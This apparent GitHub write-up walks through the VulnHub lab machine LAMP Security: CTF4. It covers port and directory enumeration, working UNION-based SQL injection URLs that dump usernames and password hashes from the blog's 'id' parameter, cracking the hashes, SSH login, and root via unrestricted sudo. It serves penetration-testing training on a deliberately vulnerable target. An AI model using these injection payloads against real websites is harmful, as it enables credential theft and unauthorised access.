






# LAMP Security: CTF4

[LAMP Security: CTF4](https://www.vulnhub.com/entry/lampsecurity-ctf4,83/) is one of the easy machines on VulnHub which mainly focuses on SQLi.

So, lets begin!

## Enumeration

As usual, the first thing that we need to do is run an `nmap` scan and check if some webpages are hosted on port 80/443. We can initially start the `nmap` scan and head over to the browser.



Here it can be seen some static pages are hosted.

Meanwhile, we get our `nmap` results as well

```
┌──(kali㉿kali)-[~/Desktop/side_oscp/vulnhub/lampctf4]
└─$ portopen 192.168.0.123                                                                               
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-10 16:40 EDT
Nmap scan report for 192.168.0.123
Host is up (0.0060s latency).
Not shown: 65531 filtered ports
PORT    STATE  SERVICE
22/tcp  open   ssh
25/tcp  open   smtp
80/tcp  open   http
631/tcp closed ipp
MAC Address: 08:00:27:24:34:5E (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 143.02 seconds
                                                                                                         ┌──(kali㉿kali)-[~/Desktop/side_oscp/vulnhub/lampctf4]
└─$ portdet 192.168.0.123 -p22,25,80,631
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-10 16:48 EDT
Nmap scan report for 192.168.0.123
Host is up (0.0040s latency).

PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 10:4a:18:f8:97:e0:72:27:b5:a4:33:93:3d:aa:9d:ef (DSA)
|_  2048 e7:70:d3:81:00:41:b8:6e:fd:31:ae:0e:00:ea:5c:b4 (RSA)
25/tcp  open   smtp    Sendmail 8.13.5/8.13.5
| smtp-commands: ctf4.sas.upenn.edu Hello [192.168.0.165], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP, 
|_ 2.0.0 This is sendmail version 8.13.5 2.0.0 Topics: 2.0.0 HELO EHLO MAIL RCPT DATA 2.0.0 RSET NOOP QUIT HELP VRFY 2.0.0 EXPN VERB ETRN DSN AUTH 2.0.0 STARTTLS 2.0.0 For more info use "HELP <topic>". 2.0.0 To report bugs in the implementation send email to 2.0.0 sendmail-bugs@sendmail.org. 2.0.0 For local information send email to Postmaster at your site. 2.0.0 End of HELP info 
80/tcp  open   http    Apache httpd 2.2.0 ((Fedora))
| http-robots.txt: 5 disallowed entries 
|_/mail/ /restricted/ /conf/ /sql/ /admin/
|_http-server-header: Apache/2.2.0 (Fedora)
|_http-title:  Prof. Ehks 
631/tcp closed ipp
MAC Address: 08:00:27:24:34:5E (Oracle VirtualBox virtual NIC)
Device type: general purpose|remote management|terminal server|switch|WAP|proxy server
Running (JUST GUESSING): Linux 2.6.X|3.X|4.X (98%), Control4 embedded (96%), Lantronix embedded (96%), SNR embedded (95%), Dell iDRAC 6 (94%), SonicWALL embedded (93%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/h:lantronix:slc_8 cpe:/h:snr:snr-s2960 cpe:/o:dell:idrac6_firmware cpe:/o:linux:linux_kernel:3.10 cpe:/o:linux:linux_kernel:4.1 cpe:/o:sonicwall:aventail_ex-6000
Aggressive OS guesses: Linux 2.6.16 - 2.6.21 (98%), Linux 2.6.13 - 2.6.32 (96%), Control4 HC-300 home controller (96%), Lantronix SLC 8 terminal server (Linux 2.6) (96%), SNR SNR-S2960 switch (95%), Linux 2.6.8 - 2.6.30 (94%), Linux 2.6.9 - 2.6.18 (94%), Dell iDRAC 6 remote access controller (Linux 2.6) (94%), Linux 2.6.22 - 2.6.23 (94%), OpenWrt Barrier Breaker (Linux 3.10) (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: Host: ctf4.sas.upenn.edu; OS: Unix

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.41 seconds
```

From the `nmap` scan, we can see that port 22, 25 and 80 are open. Right now we can focus on port 80 and explore the web pages for any issues that can be exploited.

We can start a directory traversal attack to search for any hidden directories and along with that we can check each and every link present on the website along with its source-code for any kind of information disclosure.

```
┌──(kali㉿kali)-[~/Desktop/side_oscp/vulnhub/lampctf4]
└─$ ffuf -u http://192.168.0.123/FUZZ -w /usr/share/wordlists/dirb/common.txt      

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.0.123/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.htaccess               [Status: 403, Size: 289, Words: 21, Lines: 11]
.htpasswd               [Status: 403, Size: 289, Words: 21, Lines: 11]
                        [Status: 200, Size: 3479, Words: 393, Lines: 61]
.hta                    [Status: 403, Size: 284, Words: 21, Lines: 11]
admin                   [Status: 301, Size: 313, Words: 20, Lines: 10]
calendar                [Status: 301, Size: 316, Words: 20, Lines: 10]
cgi-bin/                [Status: 403, Size: 288, Words: 21, Lines: 11]
images                  [Status: 301, Size: 314, Words: 20, Lines: 10]
inc                     [Status: 301, Size: 311, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 3479, Words: 393, Lines: 61]
mail                    [Status: 301, Size: 312, Words: 20, Lines: 10]
pages                   [Status: 301, Size: 313, Words: 20, Lines: 10]
restricted              [Status: 401, Size: 479, Words: 44, Lines: 15]
robots.txt              [Status: 200, Size: 104, Words: 7, Lines: 6]
sql                     [Status: 301, Size: 311, Words: 20, Lines: 10]
usage                   [Status: 301, Size: 313, Words: 20, Lines: 10]
:: Progress: [4614/4614] :: Job [1/1] :: 438 req/sec :: Duration: [0:00:14] :: Errors: 0 ::
```

It can be seen that multiple directories have been detected.

In the `/admin` directory, there is a login page where we can try some basic SQLi but none of it works. For now, we can note this directory so that if we find some credentials they can be tried over here.

The `/calendar` directory appears to have a calendar which appears not to be of much use to us.

In the `/mail` directory, we can find another login page which appears to be for a web mail client called as SquirrelMail. We can search for exploits related to SquirrelMail, but none of them appear to be helpful in our case.

The `/sql` directory appears to be useful as it contains a file named as `db.sql` which contains the following queries

```mysql
use ehks;
create table user (user_id int not null auto_increment primary key, user_name varchar(20) not null, user_pass varchar(32) not null);
create table blog (blog_id int primary key not null auto_increment, blog_title varchar(255), blog_body text, blog_date datetime not null);
create table comment (comment_id int not null auto_increment primary key, comment_title varchar (50), comment_body text, comment_author varchar(50), comment_url varchar(50), comment_date datetime not null);
```

From these queries, it can be easily understood that there is a database named as `ehks` which as a table named `user` having columns `user_id`, `user_name` and `user_pass`. So, if we find a SQLi vulnerability on some web page then we can use it to obtain details from the `user` table.

On the blogs page, we can see links to multiple blogs along with their author's username (We can note these names as they can be useful in later stages). We can check each of these blogs for any useful information.



When we click on the link to the blogs, it can be seen that multiple parameters are being sent in the GET request. So, we can test them for SQLi.



As expected, when we pass `'` to the `id` parameter it returns an error because most probably `id` would be having a data type of `INT` and `'` is used with `VARCHAR`.

## Gaining Access

Now that we know about the SQL vulnerability, we can try to exploit it to obtain sensitive information. We can proceed as the steps mentioned below:

1. Determine the number of columns being returned so that we can craft our payload accordingly.

   ```
   http://192.168.0.123/index.html?page=blog&title=Blog&id=1%20order%20by%201--	--> no error
   http://192.168.0.123/index.html?page=blog&title=Blog&id=1%20order%20by%202--	--> no error
   .....
   http://192.168.0.123/index.html?page=blog&title=Blog&id=1%20order%20by%206--	--> Returns error
   ```

   When we try to order by column number, no error is returned till number 5. But when we try to `order by 6--` an error is returned because there is no 6th column. So, we can conclude that there are 5 columns.

   

2. Next step would be to determine the columns that have data type as `VARCHAR`, so that we can use those columns to exfiltrate data.

   ```
   http://192.168.0.123/index.html?page=blog&title=Blog&id=1%20union%20select%20null,%20null,%20null,%20null,%20null--	--> no error
   http://192.168.0.123/index.html?page=blog&title=Blog&id=1%20union%20select%20%27a%27%20null,%20null,%20null,%20null--	--> returns error
   http://192.168.0.123/index.html?page=blog&title=Blog&id=1%20union%20select%20null,%20%27a%27,%20null,%20null,%20null--	--> 'a' reflected in output
   http://192.168.0.123/index.html?page=blog&title=Blog&id=1%20union%20select%20null,%20null,%20%27a%27,%20null,%20null--	--> no error but 'a' no reflected in output
   http://192.168.0.123/index.html?page=blog&title=Blog&id=1%20union%20select%20null,%20null,%20null,%20%27a%27,%20null--	--> 'a' reflected in output
   http://192.168.0.123/index.html?page=blog&title=Blog&id=1%20union%20select%20null,%20null,%20null,%20null,%20%27a%27--	--> 'a' reflected in output
   
   ```

   From the above requests, it is clear that column numbers 2, 4 and 5 can be used for accessing the data in the database.

Using this information with that of obtained from `db.sql` we can try to access the content of the `user` table

```
http://192.168.0.123/index.html?page=blog&title=Blog&id=null%20union%20select%201,%20user_name,%20user_pass,%204,%205%20from%20user--
```


It can be seen that we have the usernames and password hashes of multiple users. We can crack these passwords using [Crackstation](https://crackstation.net/).



We can use these username and password combinations to access the machine via SSH as port 22 is also open.

Usually the first entry in a table belongs to the admin. So, we can try SSH login with the credentials of first entry in the table which belongs to dstevens.

But when we try to connect to the machine via SSH we get an error

```bash
┌──(kali㉿kali)-[~/Desktop/side_oscp/vulnhub/lampctf4]
└─$ ssh dstevens@192.168.0.123                                            
Unable to negotiate with 192.168.0.123 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

This error is generated when you try to connect with a machine that is outdated because of which the recent cryptographic algorithms are not available on that machine. To resolve this issue we can use the command

```bash
$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 dstevens@192.168.0.123  
```

 Using this command, we get SSH access as dstevens

```bash
┌──(kali㉿kali)-[~/Desktop/side_oscp/vulnhub/lampctf4]
└─$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 dstevens@192.168.0.123                               
BSD SSH 4.1
dstevens@192.168.0.123's password: 
Last login: Mon May 10 22:39:51 2021 from 192.168.0.165
[dstevens@ctf4 ~]$ whoami
dstevens
[dstevens@ctf4 ~]$ id
uid=500(dstevens) gid=506(dstevens) groups=100(users),506(dstevens),507(admins) context=user_u:system_r:unconfined_t
[dstevens@ctf4 ~]$ groups 
dstevens users admins
[dstevens@ctf4 ~]$ pwd
/home/dstevens
```

From the results of the `id` and `groups` command it can be seen that user dstevens is an admin.

## Privilege Escalation

The first thing that we can look at is the output of `sudo -l` command

```bash
[dstevens@ctf4 ~]$ sudo -l
User dstevens may run the following commands on this host:
    (ALL) ALL
```

And it can be seen over here that user dstevens can run all the command with `sudo` privilege. So, we can easily switch to `root` using the command `sudo su`

```bash
[dstevens@ctf4 ~]$ sudo su 
[root@ctf4 dstevens]# whoami
root
[root@ctf4 dstevens]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=user_u:system_r:unconfined_t:SystemLow-SystemHigh
```

With this we have obtained the `root` access to this machine!

## Some Key Points to Take Away

1. Always check the URL parameters for possible SQLi.
2. Change the SSH cryptographic algorithm when try to connect with a legacy machine.

## Mind Map



## References

1. [LAMP Security: CTF4](https://www.vulnhub.com/entry/lampsecurity-ctf4,83/)

2. [CrackStation](https://crackstation.net/)
3. [Solution for SSH Unable to Negotiate Errors](https://www.infosecmatter.com/solution-for-ssh-unable-to-negotiate-errors/)

